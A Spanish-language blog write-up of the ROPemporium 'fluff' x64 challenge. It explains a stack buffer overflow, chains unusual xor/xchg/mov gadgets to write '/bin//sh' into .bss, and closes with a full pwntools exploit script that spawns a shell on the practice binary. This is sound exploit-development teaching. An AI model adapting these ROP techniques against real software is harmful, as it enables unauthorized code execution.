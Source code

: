 ```yaml
---
layout: post
title: WRITEUP, ROPemporium, FLUFF (x64)
date: 2020-04-22 01:21
comments: true
categories: [buffer overflow, CTF, dplastico, exploit dev, exploitdev, pwn, rop, ROPemporium, Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Hace tiempo que no escribia, pero tenia este post guardado de hace un tiempo, asi que hoy me anime a tomar un par de screenshots y hablar al respecto, ya que me parecio un ejercico super bueno para explicar como funciona ROP, esta vez con algunos gadgets un poco inusuales, asi que con el animo de seguir con lo educativo (que a mi me sirve para aprender) nos lanzamos con este post</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>El challenge esta tomado de ROPemporium, excelente pagina para aprender explotacion con ROP y binarios con DEP escencialmente. De verdad creo que los ejercicios son super y hacerlo sin mirar un writeup ayuda definitivamnete, por lo que si no has hecho el reto FLUFF (o si estas ya haciendo tus primeros ROP) Te recomiendo que lo intentes por ti mismo, definitivamente te servira</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://ropemporium.com/challenge/fluff.html">FLUFF ROPEMPORIUM</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>El challenge podemos ver es un binario de 64 bits (hay una version de 32, pero esta vez hare la de 64) con proteccion NX activada</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":176,"width":597,"height":147} -->
<figure class="wp-block-image is-resized"><img src="/wp-content/uploads/2020/04/image-1.png" alt="" class="wp-image-176" width="597" height="147" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Podemos observar también las funciones del programa usando gdb (que estare usando para debugear el binario junto con el plugin <a href="https://github.com/pwndbg/pwndbg">pwndbg</a>)</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Al ejecutar el programa vemos que espera que ingresemos nuestro input (el cual luego veremos nos llevara a un Buffer Overflow)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":195} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-16.png" alt="" class="wp-image-195" /></figure>
<!-- /wp:image -->

<!-- wp:image {"id":177} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-2.png" alt="" class="wp-image-177" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Vemos varias funciones con nombres que nos dan pistas de cómo pwnear este binario, pero vamos por lo primero, que tenemos en main? Claramente vemos una llamada a la función pwnme</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":179} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-3.png" alt="" class="wp-image-179" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Chequeamos usando cyclic donde ocurre el overflow y que registros podemos controlar:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":193} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-14.png" alt="" class="wp-image-193" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Comprobamos el offset a RSP, el cual es 40</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":194} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-15.png" alt="" class="wp-image-194" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>La cual podemos observar tiene un Buffer overflow en fgets (no entraré en detalles de buffer overflow esta vez, puedes leer al respecto en este <a href="/tutorial-simple-stack-buffer-overflow/">post</a> , o bien <a href="https://es.wikipedia.org/wiki/Desbordamiento_de_b%C3%BAfer">aca</a>.)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":180} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-4.png" alt="" class="wp-image-180" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Procedemos ahora a buscar funciones para pwnear este binario, una forma seria llamando a system, pero el string de “/bin/sh” no se encuentra disponible para hacer el clasico <a href="https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&amp;-return-to-libc-chaining-tutorial.pdf">ret2libc</a> (o ret2system en este caso)<br>observamos ambas funciones, en UsefulFuction, podemos ver una llamada a system que nos servirá más adelante</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":181} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-5.png" alt="" class="wp-image-181" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Pero en questionableGadgets observamos varios pop y sobre todo un MOV [r10], r11. Esto es importante ya que nos permite copiar la dirección que sea que esté en r11 dentro de la dirección que contiene r10, por lo mismo si encontramos una zona del binario donde escribir (RW) podemos escribir el string de /bin/sh para luego cargarlo en RDI y llamar a system, si aun no has hecho este desafio, te&nbsp; sugiero &nbsp;intentar &nbsp;esta &nbsp;parte &nbsp;por &nbsp;ti &nbsp;mismo, &nbsp;es &nbsp;lo &nbsp;mas entretenido&nbsp;;)<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>OK, Estos son los gadgets con los que trabajaremos</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":182} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-6.png" alt="" class="wp-image-182" /><figcaption><br></figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Donde escribir? Buscando podemos descubrir que la sección .bss se puede escribir en 0x601060, trabajamos con esta, podemos chequear permisos y direcciones con  <strong><em>objdump -h fluff</em></strong> </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":185} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-9.png" alt="" class="wp-image-185" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ok, no se ve tan sencillo como unos simples pop, pero podemos observar que podemos mover la dirección&nbsp; de r11 a la dirección&nbsp; que se contiene r10, pero no tenemos como poner ningún valor en R11 (no se ven POP R11 RET o similar)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":186} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-10.png" alt="" class="wp-image-186" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Tampoco tenemos un POP R10 que nos permita setear el valor de la direccion, pero si podemos controlar el valor de r12 </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":188} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-12.png" alt="" class="wp-image-188" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Nuestro plan para este ROP es el siguiente:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><li>Controlar el valor de r12 con un pop r12  y setearlo a la  <br>dirección&nbsp; de el segmeto .bss</li><li>Setear el valor de R11 a cero usando XOR</li><li>Pasar el valor der R12 a R11 usando XOR</li><li>usar el gadget con la orden XCHG para intercambiar los valores de R10 y R11 (ahora R10 tiene la dirección&nbsp;de .BSS)</li><li>Setear el string de "/bin/sh" a r12 por medio de una instrucción POP R12</li><li> Setear el valor de R11 a cero usando XOR </li><li> Pasar el valor der R12 a R11 usando XOR </li><li>Volver R12 a 0x0 (para no pisarnos con el ultimo XOR BYTE PTR [r10],r12b luego de la instrucción MOV QWORD PTR [r10],r11 en 0x40084e)</li><li>Mover R11 como contenido a la dirección en R10 (en este caso el segmento .bss)</li></ul>
<!-- /wp:list -->

<!-- wp:paragraph -->
<p>Suena bien, con la ayuda de pwntools, ropper y la información  en el binario podemos completar el rop:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":192} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-13.png" alt="" class="wp-image-192" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca el exploit completo</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
```python
from pwn import *

e = ELF('./fluff')
r = process("./fluff")
#gdb.attach(r) #para atachar GDB duh!
#copiar la bss address a r12
rop = p64(0x0000000000400832) #pop r12; mov r13d, 0x604060; ret; 
rop += p64(0x601060) #bss a r12 (pop)
#poner en cero r11
rop += p64(0x0000000000400820) #xor x11 x11
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r14
#xor moviendo r12 a r11 con xor
rop += p64(0x000000000040082d)
rop += "DPLADPLA" #pop r14
rop += "DPLADPLA" #pop a r12
#xchg cambiando r11 con r10
rop += p64(0x000000000040083b) 
rop += "DPLADPLA" #pop a r15
#bss queda en r10
#comenzaomos a escribinr binsh
#binsh a r12
rop += p64(0x0000000000400832) #pop r12; mov r13d, 0x604060; ret;
rop += "/bin//sh" #string de /bin/sh pop a r12
#r11 a cero
rop += p64(0x0000000000400820) #xor x11 x11
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r14
#r12 a r11
#xor moviendo r12 a r11 con xor
rop += p64(0x000000000040082d)
rop += "DPLADPLA" #pop r14
rop += p64(0x0000000000000000) #pop a r12
#move de r11 al contenido de r10
rop += p64(0x000000000040084c)#move, volver r12 a cero antes
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r13
rop += p64(0x0000000000000000) #pop r12 para el xor y que no cambie

#system
rop += p64(0x00000000004008c3)#pop rdi; ret;
rop += p64(0x601060)
rop += p64(e.symbols['system']) #magia de pwntools

payload = "A" * 40
payload += rop
r.sendlineafter("&gt;", payload)
r.interactive()
```
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>Ejecutar y shell ! Espero les haya gustado</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":196} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-17.png" alt="" class="wp-image-196" /></figure>
<!-- /wp:image -->
